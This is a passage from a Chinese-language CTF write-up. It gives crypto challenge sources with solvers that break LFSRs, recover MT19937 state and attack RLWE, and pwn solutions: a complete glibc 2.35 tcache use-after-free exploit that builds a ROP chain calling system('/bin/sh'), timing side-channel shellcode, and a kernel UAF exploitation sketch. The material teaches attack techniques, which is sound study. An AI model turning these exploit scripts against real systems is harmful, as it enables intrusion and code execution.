        token += chr(int(idx) % 200)

    return lfsr2_mask, lfsr2_state, token

def calculate_future_u(lfsr1_state, lfsr2_state, lfsr1_mask, lfsr2_mask, p, h, rounds=350):
    class LFSR:
        def __init__(self,n,p,seed):
            self.n=n
            self.p=p
            self.mask=[1]+[randint(0,p-1) for _ in range(n-1)]
            self.state=seed[:n]
            while(len(self.state)<n):
                self.state.append(len(self.state))
        def getstate(self):
            ret=sum([u*v%self.p for u,v in zip(self.state,self.mask)])%self.p
            self.state.append(ret)
            self.state.pop(0)
            return ret

    lfsr1 = LFSR(45, p, lfsr1_state)
    lfsr1.mask = lfsr1_mask   
    lfsr1.state = list(lfsr1_state)
    lfsr2 = LFSR(45, h, lfsr2_state)
    lfsr2.mask = lfsr2_mask   
    lfsr2.state = list(lfsr2_state)

    for i in range(96):
        lfsr1.getstate()
        lfsr2.getstate()
        
    urr = []
    for i in range(rounds):
        s1 = lfsr1.getstate()
        s2 = lfsr2.getstate()
        ans = xor(s1, s2)
        urr.append(ans)
    return urr

def main():
    try:
        p, mask, T = collect_initial_data()
        lfsr1_state = solve_lfsr1_state(T, p, mask)
        lfsr2_mask, lfsr2_state, token = solve_lfsr2_and_token(T, p, mask, lfsr1_state)
        urr = calculate_future_u(lfsr1_state, lfsr2_state, mask, lfsr2_mask, p, h, 350)
        
        for i in range(350):
            conn.recvuntil(b'Choice>')
            conn.sendline(b'1')
            conn.recvuntil(b'Your Guess>')
            conn.sendline(str(urr[i]).encode())
            conn.recvline()
        
        conn.recvuntil(b'Choice>')
        conn.sendline(b'3')
        conn.recvuntil(b'>')
        conn.sendline(token.encode())
        result = conn.recvall(timeout=2).decode()
        print(f"Final: {result}")
    except Exception as e:
        print(f"Error: {e}")
    finally:
        conn.close()

if __name__ == "__main__":
    main()
```

## 07-ECRSA(Medium, 2 Solves, 432pts)

本来这个题想考个同源的，但那玩意出题人自己也不太懂，于是决定简化成双线性对 +MT，RSA 只是套了个壳。

```python
from Crypto.Util.number import *
import os
from sage.all import *
import random as random2
BANNER="""
 ######  ##     ##  ######   ######  ######## ########     #######    #####    #######  ######## 
##    ## ##     ## ##    ## ##    ##    ##    ##          ##     ##  ##   ##  ##     ## ##       
##       ##     ## ##       ##          ##    ##                 ## ##     ##        ## ##       
 ######  ##     ##  ######  ##          ##    ######       #######  ##     ##  #######  #######  
      ## ##     ##       ## ##          ##    ##          ##        ##     ## ##              ## 
##    ## ##     ## ##    ## ##    ##    ##    ##          ##         ##   ##  ##        ##    ## 
 ######   #######   ######   ######     ##    ##          #########   #####   #########  ###### 

 ######  ########  ##    ## ########  ########  #######     ######## 
##    ## ##     ##  ##  ##  ##     ##    ##    ##     ##    ##    ## 
##       ##     ##   ####   ##     ##    ##    ##     ##        ##   
##       ########     ##    ########     ##    ##     ##       ##    
##       ##   ##      ##    ##           ##    ##     ##      ##     
##    ## ##    ##     ##    ##           ##    ##     ##      ##     
 ######  ##     ##    ##    ##           ##     #######       ##     
"""
print(BANNER)

globalPrime=26959946667150639794667015087019630673637144422540572481103610249153
def GetFlag():
    flag=os.getenv('GZCTF_FLAG').encode()
    upperBoundPrime=2**1280-2**512+2**128-2**40-2**16-8+1
    p=previous_prime(random2.randint(0,upperBoundPrime))
    q=next_prime(random2.randint(0,upperBoundPrime))
    e=1435756429
    n=p*q
    c=pow(bytes_to_long(flag),e,n)
    print(f'N={n}')
    print(f'e={e}')
    print(f'c={c}')
    print(f'hint={q>>960}')

def Chall():
    p=int(input('Give me your prime>'))
    if(p.bit_length()<226 or p.bit_length()>333 or not isPrime(p)):
        print('Invaid prime!')
        exit(1)
    a,b=[int(i)%p for i in input('Give me your parameters>').split()]
    assert a**2+b**2
    v=2
    while(pow(v,p>>1,p)==1):
        v+=1
    Fq2=GF((p,2),modulus=[-v,0,1],name='sqv')
    E=EllipticCurve(Fq2,[a,b])
    x1,x2=[Zmod(p)(i) for i in input('Give me 2 base points(x_coordinate)>').split()]
    G1=E.lift_x(x1)
    G2=E.lift_x(x2)
    assert G1.order()==G2.order()
    orderG=G1.order()

    def ListG(Gx):
        Gxy=Gx.xy()
        r=[]
        r=list(Gxy[0])+list(Gxy[1])
        return tuple(r)
    print(f'Your Point G1: {ListG(G1)}')
    print(f'Your Point G2: {ListG(G2)}')

    for i in range(44):
        u,v=random2.randint(0,globalPrime),random2.randint(0,globalPrime)
        print(f'Your Point:{ListG(u*G1+v*G2)}')
        u1,v1=[int(i) for i in input('Give me your answer Result>').split()]
        assert u1==u and v1==v

for _ in range(2):
    op=int(input('Give me your option>'))
    if(op==1):
        GetFlag()
    elif(op==2):
        Chall()
    else:
        exit(0)
```

### 7.1 出题人预期解

这个题需要发现： $p,q$ 都是 $1280$ 位，而题目中RSA的hint是 `q>>960`，也就是 $q$ 只泄露了 320 比特，远不够 CopperSmith 的求解。

> 提示： RSA 给的 hint 也许有用，但使用 hint 并非常规方法，需要结合 op=2 部分一起使用

不过如果你对 `python` 中的 `random` 模块有所了解的话，就知道这个 `random` 模块中的 `randint` 用的是 `MT19937`，所以这个题主要是需要你使用 `MT19937` 求解的！并且如果你能够注意到（注意力真惊人） `globalPrime` 其实是 $2^{224}$ 的前一个素数，而 `upperBoundPrime` 的值中， $2^{512}$ 相对于 $2^{1280}$ 可以忽略不计，因此 `random2.randint(0,upperBoundPrime)` 以压倒性的概率等价于 `getrandbits(1280)`， `random2.randint(0,globalPrime)` 以压倒性的概率等价于 `getrandbits(224)` 。这里之所以把 `random` 模块起别名叫 `random2`，是因为 `sagemath` 中也有个 `random` 函数，避免冲突。

而至于后面的双线性对，其实就比较简单了，这里可以选 $p=2^{x}3^{y}-1$ 型素数，也可以选 $k\cdot \mathrm{lcm}(1,2,...,u)$ 型素数，这样保证 $p\equiv 3\pmod 4$ 且 $p+1$ 极度光滑即可。这种素数其实并不难找。

给一下 illunight 师傅的找素数的脚本：

```python
from functools import reduce
from Crypto.Util.number import getPrime, isPrime

while True:
    p = reduce(lambda x,y: x*y, [getPrime(10) for _ in range(25)])*4 - 1
    if(p%4 == 3 and isPrime(p)):
        print(p)
        break
#p=5143204670319561596213349668594160691006857613681759905713565676116637627
```

然后 redapple 师傅使用的是  $p= 2^{90} * 3^{97} - 1$ 。但其实我突然发现，使用 $k\times 2^x5^y-1$ 似乎看起来更顺眼：

```python
from Crypto.Util.number import *
for i in range(100,1000):
    s=str(i)+'0'*80
    p=int(s)-1
    if(isPrime(p)):
        print(p)
"""
13199999999999999999999999999999999999999999999999999999999999999999999999999999999
14099999999999999999999999999999999999999999999999999999999999999999999999999999999
16399999999999999999999999999999999999999999999999999999999999999999999999999999999
17399999999999999999999999999999999999999999999999999999999999999999999999999999999
32699999999999999999999999999999999999999999999999999999999999999999999999999999999
36499999999999999999999999999999999999999999999999999999999999999999999999999999999
37799999999999999999999999999999999999999999999999999999999999999999999999999999999
38399999999999999999999999999999999999999999999999999999999999999999999999999999999
39499999999999999999999999999999999999999999999999999999999999999999999999999999999
43699999999999999999999999999999999999999999999999999999999999999999999999999999999
72199999999999999999999999999999999999999999999999999999999999999999999999999999999
79199999999999999999999999999999999999999999999999999999999999999999999999999999999
86599999999999999999999999999999999999999999999999999999999999999999999999999999999
"""
```

然后后面就是双线性对在 $\mathbb F_{p^2}$ 上解离散对数。但需要注意： 虽然 $e(aG,bH)=e(G,H)^{ab}$，但若  $H=kG$ ，则这个配对是退化的。但如果你关注了题目的生成过程，你会发现它的取模多项式是 $x^2-v$  ，其中 $v$ 是模 $p$ 的二次非剩余。因此找两个坐标，就可以找一个 $y$ 坐标带 `sqv` 的，一个 $y$ 坐标不带 `sqv` 的就行了。（其实只有可能出现这两种情况，因为 $x$ 坐标被限制在了 $\mathbb F_p$ 而非 $\mathbb F_{p^2}$ 上）。

那这样我们就可以刷 44 组挑战了。但刷完 44 组挑战，你会发现：44 组挑战只给出了 616 个 State，还剩 8 个 State 不知道（因为逆 MT19937 需要 624 个 State）。不过你会注意到： $q$ 的高位有 320 比特，这里有 10 个 State，那再取最高的 8 个 State 不就行了吗？:P

其实，这个 hint 也并不一定有用，因为 $p$ 也是 MT 生成的。在 MT 中，有：

$$
s_{i+624}=f(s_{i},s_{i+397})
$$

因此，只有 616 个 state，虽然无法恢复 $q$，但是可以恢复 $p$ 的（我随便丢 8 个 State 进去，就算计算结果，但不影响 $p$ 啊）！这样本题也可以解。（如果你是先选择 1 再选择 2 的话）。当然，如果你先选择 2 再选择 1，就算没有 $q$ 高位，你随便丢 8 个 State 进去， $p$  可能求不出来，但 $q$ 也是可以完整恢复的。

逆 MT19937 的脚本网上一大堆，自己随便找一个都可以。认真看了看 illunight 和 redapple 师傅写的 wp，都挺不错的。本来想放上来，但篇幅实在有限。还是给个自己写的较为简洁的版本吧。。

#### 脚本 1：交互脚本

```python
from pwn import *
from sage.all import *

sh=process(['sage','15.sage'])
sh.recvuntil(b'>')
sh.sendline(b'1')
rsa=[]
for i in range(4):
    sh.recvuntil(b'=')
    rsa.append(eval(sh.recvline(keepends=False)))
print(rsa)
sh.recvuntil(b'>')
sh.sendline(b'2')

p=11130688431486566733102370304229766445269014631910188729551951723268722596002353872210735999

sh.recvuntil(b'>')
sh.sendline(str(p).encode())
sh.recvuntil(b'>')
sh.sendline(b"1 0")
sh.recvuntil(b">")
sh.sendline(b"3 -3")
sh.recvuntil(b':')
v=2
while(pow(v,p>>1,p)==1):
    v+=1
Fp2=GF((p,2),modulus=[-v,0,1],name='sqv')
G1L=list(eval(sh.recvline(keepends=False)))
sh.recvuntil(b':')
G2L=list(eval(sh.recvline(keepends=False)))
E=EllipticCurve(Fp2,[1,0])
print(G1L,G2L)
G1=E(Fp2(G1L[:2]),Fp2(G1L[2:]))
G2=E(Fp2(G2L[:2]),Fp2(G2L[2:]))
Gord=G1.order()
g1=G1.weil_pairing(G2,Gord)
g2=G2.weil_pairing(G1,Gord)
print(G1.order())
print(G2.order())
L=[]
for i in range(44):
    print(f'Round {i}')
    sh.recvuntil(b':')
    HL=list(eval(sh.recvline(keepends=False)))
    H=E(Fp2(HL[:2]),Fp2(HL[2:]))
    h1=G1.weil_pairing(H,Gord)
    h2=G2.weil_pairing(H,Gord)
    k1,k2=discrete_log(h1,g1,ord=Gord),discrete_log(h2,g2,ord=Gord)
    print(k1,k2)
    L.append(k2%Gord)
    L.append(k1%Gord)
    sh.sendline(f'{k2%Gord} {k1%Gord}'.encode())
L32=[]
for number in L:
    C=[]
    for _ in range(7):
        C.append(number&0xffffffff)
        number>>=32
    L32+=C

print(L32)
print(len(L32))
sh.interactive()
```

#### 脚本 2：逆 MT 的脚本（需要输入 L32 数组）

```python
from sage.all import *
from Crypto.Util.number import *
D=# copy the L32(length:616) in script 1

N,E,C,qh=[87216570161982833430902035560412147135145681837621932618486613321608862913599151939219568958153311547038533567667171315025800801390839749679254540035616471811414840759407621709098084614227583518736383797201728857211835582326649463887873456102856104843905654782916333168085148622754035138548554733888680376882652393953479458476141892547568252266814561338313481866406783023719496762953779349914489941286959579133848282378941841661164127980306391616111178050277139782105316087058427655533044660489619043019846560822194853211128702555303824846665251091210479056780238663074400002848174849504475254577248465452087599800877145429200981996084796740953618072368579977308238148183176521128889075045551592118888768935640765809008665049492513950779464441358606873878789437195260243, 1435756429, 51873311924894259743738403461931986418501984388003256448601794920336903069816183820045646620456148123365352359646174692417636201100932835146139263745201687519602814581262201733211810074925585975986691425506064499628193443400229517771761827547986003200414810115081621901681073468599529811818247991788235845512013241026469719685089233436289779982160574977595195431263856366529319171468703237407716867809155572513960460395202174191625585399903570418870892656879333481439050243512487060865697022837664033887100981349707263939364832466743975377536025444151592694830704628373710665017317880908320690256565032677209170924646944982310083173959691777931368832770396184555557239424549961573899171460760607873824074468289061559214207573651704414847570339849583296180920683418698707, 472133320010860456366591585411701439846065287256051361744200840425980296947521185872001642456429]


qh32=[]
qhtmp=qh
for i in range(10):
    qh32.append(qhtmp&0xffffffff)
    qhtmp>>=32
print(qh32)


from mttool import MT19937
mt=MT19937()
mt.setstate(qh32[-8:]+D)
mt.invtwist()
mt.invtwist()
R=[]
for i in range(624+8):
    R.append(mt.getstate())
q=0
for i in range(40):
    q<<=32
    q|=R.pop(-1)
print(q,q.bit_length())
q=next_prime(q)
print(N%q)
p=N//q
d=inverse(E,(p-1)*(q-1))
print(long_to_bytes(pow(int(C),int(d),int(N))))
```

#### 脚本 3：mttool.py（被脚本 2 引用）

```python
from Crypto.Util.number import *
from hashlib import md5
import random
def _int32(x):
    return int(0xFFFFFFFF & x)
class MT19937:
    def __init__(self, seed=0):
        self.mt = [0] * 624
        self.mt[0] = seed
        self.mti = 0
        for i in range(1, 624):
            self.mt[i] = _int32(1812433253 * (self.mt[i - 1] ^ self.mt[i - 1] >> 30) + i)
    def getstate(self,op=False):
        if self.mti == 0 and op==False:
            self.twist()
        y = self.mt[self.mti]
        y = y ^ y >> 11
        y = y ^ y << 7 & 2636928640
        y = y ^ y << 15 & 4022730752
        y = y ^ y >> 18
        self.mti = (self.mti + 1) % 624
        return _int32(y)
    def twist(self):
        for i in range(0, 624):
            y = _int32((self.mt[i] & 0x80000000) + (self.mt[(i + 1) % 624] & 0x7fffffff))
            self.mt[i] = (y >> 1) ^ self.mt[(i + 397) % 624]
            if y % 2 != 0:
                self.mt[i] = self.mt[i] ^ 0x9908b0df
    def inverse_right(self,res, shift, mask=0xffffffff, bits=32):
        tmp = res
        for i in range(bits // shift):
            tmp = res ^ tmp >> shift & mask
        return tmp
    def inverse_left(self,res, shift, mask=0xffffffff, bits=32):
        tmp = res
        for i in range(bits // shift):
            tmp = res ^ tmp << shift & mask
        return tmp
    def extract_number(self,y):
        y = y ^ y >> 11
        y = y ^ y << 7 & 2636928640
        y = y ^ y << 15 & 4022730752
        y = y ^ y >> 18
        return y&0xffffffff
    def recover(self,y):
        y = self.inverse_right(y,18)
        y = self.inverse_left(y,15,4022730752)
        y = self.inverse_left(y,7,2636928640)
        y = self.inverse_right(y,11)
        return y&0xffffffff
    def setstate(self,s):
        if(len(s)!=624):
            raise ValueError("The length of prediction must be 624!")
        for i in range(624):
            self.mt[i]=self.recover(s[i])
        #self.mt=s
        self.mti=0
    def predict(self,s):
        self.setstate(s)
        self.twist()
        return self.getstate(True)
    def invtwist(self):
        high = 0x80000000
        low = 0x7fffffff
        mask = 0x9908b0df
        for i in range(623,-1,-1):
            tmp = self.mt[i]^self.mt[(i+397)%624]
            if tmp & high == high:
                tmp ^= mask
                tmp <<= 1
                tmp |= 1
            else:
                tmp <<=1
            res = tmp&high
            tmp = self.mt[i-1]^self.mt[(i+396)%624]
            if tmp & high == high:
                tmp ^= mask
                tmp <<= 1
                tmp |= 1
            else:
                tmp <<=1
            res |= (tmp)&low
            self.mt[i] = res
def example():
    D=MT19937(48)
    print(D.getstate())
    print(D.mt[:5])
    print(D.recover(90324435))
    print(D.extract_number(90324435))
    D.twist()
    print(D.mt[:5])
    D.invtwist()
    print(D.mt[:5])
#Main Below#
# example()
```

## 08-Broadcast2(Medium+, 0 Solves, 500pts)

先看一下题目：

```python
import random as random2
import os
from datetime import *
from sage.all import *

rng=random2.Random()
rng.seed(os.urandom(48))

class LFSR:
    def __init__(self,n,p,seed,mask):
        self.n=n
        self.p=p
        self.mask=mask[:n]
        self.state=seed[:n]

    def getstate(self):
        ret=sum([u*v%self.p for u,v in zip(self.state,self.mask)])%self.p
        self.state.append(ret)
        self.state.pop(0)
        return ret

q=251
R=PolynomialRing(Zmod(q),'X')
X=R.gen(0)

QR=R.quo(X**256+X+6)
ERR=list(range(q))
shuffle(ERR)


ESEED=[rng.randint(0,6) for _ in range(5)]
ESEED[rng.randint(0,4)]=rng.randint(1,6)
EMASK=[rng.randint(0,6) for _ in range(5)]
EMASK[rng.randint(0,4)]=rng.randint(1,6)
rng.seed(os.urandom(33))
rng.shuffle(ESEED)
rng.shuffle(EMASK)
lfsr57=LFSR(5,7,ESEED,EMASK)

token=''.join([random2.choice('0123456789ABCDEFGHJK')for _ in range(256)])
s=[ord(ch) for ch in token]
s=QR(s)
seedA=os.urandom(48).hex()
print('seedA= ',seedA)

rngA=random2.Random()
rngA.seed(seedA)
for i in range(548):
    op=int(input('Give me your option>'))
    if(op==1):
        A=QR([rngA.randint(0,q-1) for _ in range(256)])
        e=QR([ERR[lfsr57.getstate()] for _ in range(256)])
        print('Your Cipher=',list(A*s+e))
    elif(op==2):
        token1=input('GIVE ME MY TOKEN>').strip()
        if(token1==token):
            print('Congraduations! Here is your flag:',os.getenv('GZCTF_FLAG'))
        else:
            print('Sorry, Wrong Token')
```

### 8.1 出题人预期解

这个题其实是抄的去年网鼎杯半决赛 Noisy-LFSR 的一个出题思想（把那个题的思想套到了 RLWE 上来）。有兴趣的朋友可以去网上搜一下那个题的 wp。其核心解法有一条是：虽然模数  $p$ ，长度 $n$ 的 LFSR 最大周期是  $p^n-1$ ，但需要 LFSR 的 mask 必须是本源多项式。而如果我随机生成一个 LFSR，那么它极大概率是不满周期的。

本题就是利用了这样一个思想，其实如果有师傅把题目中生成 LFSR 的过程跑多次看看，统计一下周期就可以发现，这个 LFSR 很有可能达不到 16806 的最大周期。题目中给了 548 次交互机会，有大约 1/3 的概率，LFSR 的周期是小于 547 的，并且小于 547 的最常见周期 Top3 为 48,342,114。

因此，如果我们交互 547 次，我们就可以按一定次序得到 547×256=140032 个类似于 $\sum_{i=0}^{255} a_is_i+e=b$ 的方程，将这些方程存入数组。然后暴力枚举周期，这样所有的 $e$ 都相同。然后再暴力枚举 $e$ （反正模数只有 251）。然后根据 token 的特征（只有 `0123456789ABCDEFGHJK`）就可以筛选出 token，并在最后一次提交 token，获取 flag。

这个题格基规约是做不出来的，因为 $s,e$ 都是随机数， $e$  虽然只有 7 个取值，但你并不知道这 7 个取值（当然就无法线性化）。并且 $q$ 只有 251，LLL 大概率只能得到单位矩阵。

当然枚举周期也有个小技巧：你可以多次测试随机生成 LFSR ，并记录其周期出现的频率，把概率最大的放在前面（比如 48,342,114,336,24,168）就可以快速出解了。当然，构建方程也可以用 Sagemath 很快地完成。

```python
import random as random2
import os
from datetime import *
from sage.all import *
from tqdm import *
from pwn import *


# context.log_level='debug'
sh=process(['python3','task.py'])


sh.recvuntil(b'=')
seedA=sh.recvline().strip().decode()
rngA=random2.Random()
rngA.seed(seedA)
print(seedA)

q=251
R=PolynomialRing(Zmod(q),'X')
X=R.gen(0)
QR=R.quo(X**256+X+6)

eqArr=[]
for T in tqdm(range(547)):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'=')
    b=eval(sh.recvline().strip())
    A=QR([rngA.randint(0,q-1) for _ in range(256)])
    Am=A.matrix().T
    for j in range(256):
        eqArr.append((Am[j],b[j]))

TCandidate=[48, 342, 114, 336, 24, 168, 480, 42, 171, 456, 300, 240, 400, 150, 84, 12, 228, 57, 120, 96, 16, 144, 399, 304, 160, 200, 75, 18, 38, 60, 30, 72, 21, 112, 6, 100, 50, 152, 80, 40, 126, 19, 25, 36, 76, 266, 9, 56, 8, 15, 28, 14, 32, 3, 63, 10, 7, 133, 1, 20, 2, 4, 5]

for T in tqdm(TCandidate):
    eqs=eqArr[::T][:256]
    M=[]
    y=[]
    for i in range(256):
        M.append(eqs[i][0])
        y.append(eqs[i][1])
    M=matrix(Zmod(q),M)
    for i in range(251):
        vecy=vector(Zmod(q),[yj-i for yj in y])
        try:
            token=list(M.solve_right(vecy))
            if(all([chr(j) in '0123456789ABCDEFGHJK' for j in token])):
                sh.recvuntil(b'>')
                sh.sendline(b'2')
                sh.recvuntil(b'>')
                sh.sendline(bytes(token))
                print(sh.recvall(timeout=4))
                exit(0)                
        except Exception as e:
            print(e)
```

# Pwn

## babyHeap

这题就是一个简单的菜单堆，并且肉眼可见的 uaf 漏洞，只是 glibc 版本被提到了 2.35，意味着传统打 hook 的方式无法进行了，但是按照一般的方法，可以直接打栈（当然也可以设计一下然后打 io_file，但是会异常复杂）。

可以很明显的看到，堆块只有 0x40，意味着只能打 tcache bin。所以只需要考虑几个问题：

1. 2.35 版本的 tcache bin 存在指针加密的行为，应该怎么做？_泄露首个进入 tcache bin 堆块的 next 指针，即可获得异或值_
2. 如何泄露 glibc 基址？_方法不唯一，一种想法是修改 tcache bin 的某个堆块指针，让一个堆块部分覆盖到另一个堆块上，修改它的大小后释放，另一个办法是利用 scanf 函数做 malloc_consoludate 将 fast bin 的堆块合并塞到 unsorted bin 中_
3. 在没有 hook 的情况下如何进一步利用？_泄露 environ 获得栈地址，而后直接打栈_
4. 当只有一个大小的 tcache bin 的时候怎么做到在破坏了链的情况下多次建堆？_在 tcache bin 创建时会在堆顶创建 typedef struct tcache_perthread_struct，直接劫持它即可劫持任一 tcache bin 链_

```python
**from** pwn **import** *

context**.**log_level = "debug"
**context**(arch="amd64", os="linux")
context**.**terminal = ['tmux','splitw','-h']

**def** **p**(s,m):
    **if** m **==** 0:
        io = **process**(s)
    **else**:
        **if** ":" **in** s:
            x = s**.split**(":")
            addr = x[0]
            port = **int**(x[1])
            io = **remote**(addr,port)
        **elif** " " **in** s:
            x = s**.split**(" ")
            addr = x[0]
            port = **int**(x[1])
            io = **remote**(addr,port)
        **else**:
            **error**(f"{s} may be some error")
    **return** io

**def** **gg**():
    gdb**.attach**(io)
    raw_input()

s   = **lambda** x  : io**.send**(x)
sa  = **lambda** x,y: io**.sendafter**(x, y)
sla = **lambda** x,y: io**.sendlineafter**(x, y)
sl  = **lambda** x  : io**.sendline**(x)
rv  = **lambda** x  : io**.recv**(x)
ru  = **lambda** x  : io**.recvuntil**(x)
rvl = **lambda**    : io**.recvline**()
lg  = **lambda** x,y: log**.info**(f"\x1b[01;38;5;214m {x} => {**hex**(y)} \x1b[0m")
ia  = **lambda**    : io**.interactive**()
uu32 = **lambda** x   : **u32**(x**.ljust**(4,b'\x00'))
uu64 = **lambda** x   : **u64**(x**.ljust**(8,b'\x00'))
l32  = **lambda**     : **u32**(io**.recvuntil**(b"\xf7")[-4:]**.ljust**(4,b"\x00"))
l64  = **lambda**     : **u64**(io**.recvuntil**(b"\x7f")[-6:]**.ljust**(8,b"\x00"))

libc = **ELF**('/lib/x86_64-linux-gnu/libc.so.6') 
io = **p**("106.14.191.23:59857",1)

**def** **create_user**(name):
    **sla**(b'choice: ', b'1')
    **sa**(b'enter user name: ', name)

**def** **free_user**(i):
    **sla**(b'choice: ', b'2')
    **sla**(b"enter user id: ",**str**(i)**.encode**())
**def** **show_user**(i):
    **sla**(b'choice: ', b'3')
    **sla**(b"enter user id: ",**str**(i)**.encode**())

**def** **edit_user**(i,name):
    **sla**(b'choice: ', b'4')
    **sla**(b"enter user id: ",**str**(i)**.encode**())
    **sa**(b'enter new user name: ', name)
    
**for** i **in** **range**(10):
    **create_user**(b"A")
**for** i **in** **range**(9):
    **free_user**(i)
**sla**(b'choice: ', b'4' * 0x4000)
**show_user**(7)
t = **l64**()
libc_base = t + 0x7f7d6e91a000 - 0x7f7d6eb34d70
**lg**("libc base",libc_base)
**show_user**(0)
ft = **u64**(**ru**(b"\x05")[-5:]**.ljust**(8,b"\x00"))
**lg**("ft",ft)
**edit_user**(6, **p64**(((ft<<12) - 0x1000 + 0xa0)^ft))
**create_user**(b"a") #_ 10_
**create_user**(b"a") #_ 11_
**edit_user**(11,b"\x00"*8 + **p64**(libc_base + libc**.**sym["environ"] - 16))
**create_user**(b"a"*16) #_ 12_
**show_user**(12)
t = **l64**()
**lg**("environ",t)
**edit_user**(11,b"\x00"*8 + **p64**(t - 0x888 + 0x740))
**sla**(b'choice: ', b'1')
pop_rdi_ret = 0x2a3e5
bin_sh = 0x1d8678
**sa**(b'enter user name: ', **p64**((ft << 12) + 0x1000) + **p64**(libc_base + pop_rdi_ret) + **p64**(libc_base + bin_sh) + **p64**(libc_base + pop_rdi_ret + 1)+ **p64**(libc_base + libc**.**sym["system"]))
**ia**()
```

## jail

一个考察时序侧信道的最小 demo

题目将 flag mmap 到内存中，从输入读一段 shellcode 后，禁用所有 syscall（seccomp-filter 无条件 kill 所有 syscall）并执行

byte-by-byte 方式泄露 flag，shellcode 访问 mmap 的 flag 内存，根据 flag 字节值决定是否进入无限循环，观察进程是否立即结束判断字节值是否正确

提升爆破效率：

- @iyheart 使 candidates 为“0123456789abcdef_ABCDEFGHIJKLMNOPQRSTUVWXYZghijklmnopqrstuvwxyz{}”
- bit-by-bit 效率更高，有兴趣的读者可以尝试 :)

exp:

```python
from pwn import *
import time

def generate_shellcode(offset, guess):
    context(arch='amd64', os='linux')
    assembly = f'''
        mov rbx, rsp
        add rbx, 0x20
        mov rbx, [rbx]
        add rbx, {offset}
        mov al, [rbx]
        cmp al, {guess}
        je hang
        ret
    hang:
        jmp hang
    '''
    sc = asm(assembly) + b'\x00'
    return sc

TIMEOUT = 10

def test_guess(offset, guess, remote_target=True):
    try:
        if remote_target:
            io = remote('1.1.4.5', 14)
        else:
            io = process('./jail')
        
        io.sendlineafter(b'Input your code :\n', generate_shellcode(offset, guess))
        io.recvuntil(b'Enjoy the jail :)\n', timeout=2)
        
        start_time = time.time()
        try:
            io.recv(timeout=TIMEOUT)
            elapsed = time.time() - start_time
            io.close()
            
            if elapsed < TIMEOUT * 0.8:
                return False
            else:
                return True
                
        except EOFError:
            elapsed = time.time() - start_time
            io.close()
            return elapsed >= TIMEOUT * 0.8
            
        except Exception as e:
            io.close()
            return True
            
    except Exception as e:
        log.error(f"Connection error: {e}")
        try:
            io.close()
        except:
            pass
        return False

if __name__ == '__main__':
    context.arch = 'amd64'
    context.log_level = 'info'
    
    REMOTE = True
    
    flag = ''
    for offset in range(45):
        if test_guess(offset, 0, REMOTE):
            log.success('Flag ends with \\x00')
            break
        
        found = False
        for guess in range(0x20, 0x7f):
            log.info(f'Testing offset {offset}, guess {chr(guess)} (0x{guess:02x})')
            if test_guess(offset, guess, REMOTE):
                flag += chr(guess)
                log.success(f'Flag so far: {flag}')
                found = True
                break
        
        if not found:
            log.error(f'Failed to find character at offset {offset}')
            break
    
    log.success(f'Final flag: {flag}')
```

## kmaster

~~这玩意~~~~的一个简化版 demo, 本质是个低创题~~

仅给出解题思路，鉴于解题情况没有搓完整 exp，需要复现的选手可以私 [@slavin](mailto:slavin452@gmail.com) 讨论 :)

题目漏洞驱动给出 ioctl 接口，实现了 3 个功能 alloc, delete, flush, 输入的 arg 为

```c
struct vuln_args {
    uint64_t spi;
    uint64_t addr;
    uint64_t protocol;
};
```

题目有 3 个全局 hash table:

```c
static struct hlist_head byspi_table[256];
static struct hlist_head byaddr_table[256];
static struct hlist_head byprotocol_table[256]
```

ioctl 的主要逻辑:

alloc: 读 arg，分配一个 `vuln_object`，位于 `kmalloc-cg-1k`，分别插入到 3 个 hash table 中

delete: 读 arg，从 `byaddr_table` 中找到 `spi`, `addr`, `protocol` 都为目标的 `vuln_object` 并调用 `vuln_delete()`

flush: 读 arg，从 `byprotocol_table` 中找所有 `protocol` 为目标的 `vuln_object` 并调用 `vuln_delete()`

`byspi_table` 的 hash 值是 `spi^addr^protocol`，`byaddr_table` 的 hash 值是 `addr`，`byprotocol_table` 的 hash 值是 `protocol`

首先贴一下 Linux 的 hash list node 的插入和删除的主要 api

```c
static inline void hlist_add_head(struct hlist_node *n, struct hlist_head *h)
{
    struct hlist_node *first = h->first;
    WRITE_ONCE(n->next, first);
    if (first)
        WRITE_ONCE(first->pprev, &n->next);
    WRITE_ONCE(h->first, n);
    WRITE_ONCE(n->pprev, &h->first);
}

static inline void __hlist_del(struct hlist_node *n)
{
    struct hlist_node *next = n->next;
    struct hlist_node **pprev = n->pprev;

    WRITE_ONCE(*pprev, next);
    if (next)
        WRITE_ONCE(next->pprev, pprev);
}

static inline void hlist_del(struct hlist_node *n)
{
    __hlist_del(n);
    n->next = LIST_POISON1;
    n->pprev = LIST_POISON2;
}
```

~~由于是内联所以可能要求选手熟悉这俩 api 不然需要还原一下 D:~~

`vuln_object` 还原之后：

```c
struct vuln_object {
    uint64_t spi;
    uint64_t addr;
    uint64_t protocol;
    struct hlist_node byaddr;
    struct hlist_node byspi;
    struct hlist_node byprotocol;
    char data[952];
};
```

漏洞点：

`vuln_delete()`:  将 `vuln_obj` 从 3 个 hash table 的 hash list 上脱链并 `kfree()`，但是当 `spi==0` 时会跳过 `byspi_table` 的脱链, 那么 delete 一个 `spi==0` 的 `vuln_object` 之后，从 `byspi_table` 的视角：



即 `victim_obj` 的前驱 b 和后继 c 的 `byspi` 会留有已被 `kfree()` 的 `victim_obj` 的引用，对其解引用会产生 UAF

UAF 的利用比较 tricky，以下仅是其中一种利用思路

由于 `byspi_table` 的 hash 值是 `spi^addr^protocol`，不难撞 hash 在某个 hash list 上布置出以上布局

通过 `hlist_del()` 进行 UAF: `vuln_delete(obj_b)` 会向 `victim_obj->byspi.pprev` 写入 `&obj_a->byspi`, `vuln_delete(obj_c)` 会向 `victim_obj->byspi.next` 写入 `&obj_d->byspi`，于是我们得到 **对 UAF obj 的 offset 40 或 48 处写堆地址 **的原语

由于 `vuln_object` 位于 `kmalloc-cg-1k`，于是关注到~~经典对象~~ `struct msg_msg`：

```c
struct msg_msg {
        struct list_head           m_list;               /*     0    16 */
        long int                   m_type;               /*    16     8 */
        size_t                     m_ts;                 /*    24     8 */
        struct msg_msgseg *        next;                 /*    32     8 */
        void *                     security;             /*    40     8 */

        /* size: 48, cachelines: 1, members: 5 */
        /* last cacheline: 48 bytes */
};
```

其 security 可以提供一个 `kfree()`，刚好位于 offset 40：

```cpp
void security_msg_msg_free(struct msg_msg *msg)
{
        call_void_hook(msg_msg_free_security, msg);
        kfree(msg->security);
        msg->security = NULL;
}

void free_msg(struct msg_msg *msg)
{
        struct msg_msgseg *seg;

        security_msg_msg_free(msg);

        seg = msg->next;
